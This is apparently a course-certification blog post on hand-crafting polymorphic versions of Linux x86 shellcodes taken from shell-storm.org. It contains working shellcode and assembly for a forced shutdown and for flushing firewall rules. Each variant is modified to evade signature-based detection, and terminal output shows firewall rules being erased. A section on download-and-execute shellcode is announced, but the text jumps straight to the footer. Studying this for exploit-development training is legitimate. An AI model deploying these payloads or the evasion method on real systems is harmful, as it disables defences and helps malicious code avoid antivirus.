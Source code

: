 
# Creating polymorphic shellcode

The goal of this article is to create polymorphic verions of three different shellcodes from [http://shell-storm.org](http://shell-storm.org). Polymorphic shellcode has the ability to mutate its code everytime it runs. The instructions changes while algorithm stays intact. The purpose is to evade signature based detections without manually change the shellcode. 

We won't be creating our own polymorphic engine in this article, instead we will manually modify these three shellcodes from shell-storm.org:

- [Linux/x86 - shutdown -h now Shellcode - 56 bytes](http://shell-storm.org/shellcode/files/shellcode-876.php)
- [Linux/x86 - 40 byte shellcode to flush ipchains for Linux x86](http://shell-storm.org/shellcode/files/shellcode-65.php)
- [Linux/x86 - Download + chmod + exec - 108 bytes ](http://shell-storm.org/shellcode/files/shellcode-862.php)

We are not allowed to increase the size more than 50%.

## Shellcode 1: shutdown -h now - 56 bytes

The following program will shutdown your computer immediately when run:

```c
/*
; Title: shutdown -h now Shellcode - 56 bytes
; Date: 2014-06-27
; Platform: linux/x86
; Author: Osanda Malith Jayathissa (@OsandaMalith)

Disassembly of section .text:

08048060 <_start>:
8048060:    31 c0                   xor    eax,eax
8048062:    31 d2                   xor    edx,edx
8048064:    50                      push   eax
8048065:    66 68 2d 68             pushw  0x682d
8048069:    89 e7                   mov    edi,esp
804806b:    50                      push   eax
804806c:    6a 6e                   push   0x6e
804806e:    66 c7 44 24 01 6f 77    mov    WORD PTR [esp+0x1],0x776f
8048075:    89 e7                   mov    edi,esp
8048077:    50                      push   eax
8048078:    68 64 6f 77 6e          push   0x6e776f64
804807d:    68 73 68 75 74          push   0x74756873
8048082:    68 6e 2f 2f 2f          push   0x2f2f2f6e
8048087:    68 2f 73 62 69          push   0x6962732f
804808c:    89 e3                   mov    ebx,esp
804808e:    52                      push   edx
804808f:    56                      push   esi
8048090:    57                      push   edi
8048091:    53                      push   ebx
8048092:    89 e1                   mov    ecx,esp
8048094:    b0 0b                   mov    al,0xb
8048096:    cd 80                   int    0x80

*/

#include <stdio.h>
#include <string.h>

unsigned char code[] =  "\x31\xc0\x31\xd2\x50\x66\x68\x2d"
"\x68\x89\xe7\x50\x6a\x6e\x66\xc7"
"\x44\x24\x01\x6f\x77\x89\xe7\x50"
"\x68\x64\x6f\x77\x6e\x68\x73\x68"
"\x75\x74\x68\x6e\x2f\x2f\x2f\x68"
"\x2f\x73\x62\x69\x89\xe3\x52\x56"
"\x57\x53\x89\xe1\xb0\x0b\xcd\x80";

int
main() {

printf("Shellcode Length:  %d\n", (int)strlen(code));
int (*ret)() = (int(*)())code;
ret();

return 0;
}
```

I extracted the assembly code and modified it manually. The comments prefixed with `[M]` indicates that the instruction has been modified.

```asm
global _start

section .text

_start:

    xor    ecx,ecx                      ; [M] clear ecx
    mul    ecx                          ; [M] clear both eax and edx
    push   edx                          ; [M] push edx instead of eax
    push word 0x682d                    ; -h option
    mov    edi,esp                      ; save stack pointer to edi
    push   eax                          ; push null
    push byte 0x6e                      ; "n" character
    mov byte [esp+1], 0x6f              ; [M] "o" character
    mov byte [esp+2], 0x77              ; [M] "w" character
    mov    edi,esp                      ; save stack pointer to edi
    push   eax                          ; push null
    push   0x6e776f64                   ; these four push instructions correspond to /sbin///shutdown
    push   0x74756873
    push   0x2f2f2f6e
    push   0x6962732f
    mov    ebx,esp                      ; save stack pointer to ebx
    push   edx                          ; push null
    push   esi
    push   edi                          ; points to "-h now"
    push   ebx                          ; points to /sbin///shutdown
    mov    ecx,esp                      ; save stack pointer to ecx
    mov    al,0xc-1                     ; [M] 0xc - 1 = 0xb which is execve() syscall
    int    0x80                         ; Execute syscall
```

Running the modified version returns:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ ./shellcode
Shellcode length:  59
shutdown: Need to be root
```

Nice! We only added 3 extra bytes. Running the program as `root` shuts down the computer.

## Shellcode 2:  40 byte shellcode to flush ipchains for Linux x86

The purpose of the next shellcode is to delete all ipchains entries. So any firewall rules set in place will be wiped out.

```c
/* By Kris Katterjohn 11/18/2006
 *
 * 40 byte shellcode to flush ipchains for Linux x86
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *
 * ; execve("/sbin/ipchains", { "/sbin/ipchains", "-F", NULL }, NULL)
 *
 *      push byte 11
 *      pop eax
 *      cdq
 *      push edx
 *      push word 0x462d
 *      mov ecx, esp
 *      push edx
 *      push word 0x736e
 *      push 0x69616863
 *      push 0x70692f6e
 *      push 0x6962732f
 *      mov ebx, esp
 *      push edx
 *      push ecx
 *      push ebx
 *      mov ecx, esp
 *      int 0x80
 */

main()
{
       char shellcode[] =
               "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x46\x89"
               "\xe1\x52\x66\x68\x6e\x73\x68\x63\x68\x61"
               "\x69\x68\x6e\x2f\x69\x70\x68\x2f\x73\x62"
               "\x69\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80";

       (*(void (*)()) shellcode)();
}
```

Because I don't have the command `ipchains` on my system, I cheated a little bit and created the following script in `/sbin/ipchains`:

```bash
#!/bin/bash

/sbin/iptables "$@"
```

The modified shellcode can be seen below. Comments starting with `[M]` indicates that the instruction has been modified.

```asm
section .text

global _start

_start:
    xor ecx, ecx            ; [M] zero out ecx
    mul ecx                 ; [M] zero out edx and eax
    push byte 10            ; [M]
    pop eax                 ; eax = 10
    push ecx                ; push ecx instead of edx
    push 0x2d               ; [M] "-" char
    mov byte [esp+1], 0x46  ; [M] "F" char
    mov ecx, esp            ; save current stack pointer to ecx
    push edx                ; push null
    push word 0x736e        ; following 4 push instructions form /sbin/ipchains
    push 0x69616863
    push 0x70692f6e
    push 0x6962732f
    push 0xdeadbeef         ; [M] add some nonsese
    pop edi                 ; [M]
    mov ebx, esp            ; save currrent stack pointer to ebx
    push edx                ; push null
    push ecx                ; points to "-F"
    push ebx                ; points to /sbin/ipchains
    xor ecx, ecx            ; [M] add some nonsense
    mov edi, esp            ; [M] add some nonsense
    xchg ecx, edi           ; [M] save current stack pointer to ecx
    inc eax                 ; [M] syscall 11: execve()
    int 0x80                ; execute syscall
```

The output below shows how the shellcode deletes a `DROP` rule from iptables:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
DROP       all  --  192.168.1.254        anywhere

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ sudo ./shellcode
Shellcode length:  57
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
```

The modified shellcode increased with 17 bytes which is a 42% increase.

## Shellcode 3: Download + chmod + exec - 108 bytes

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
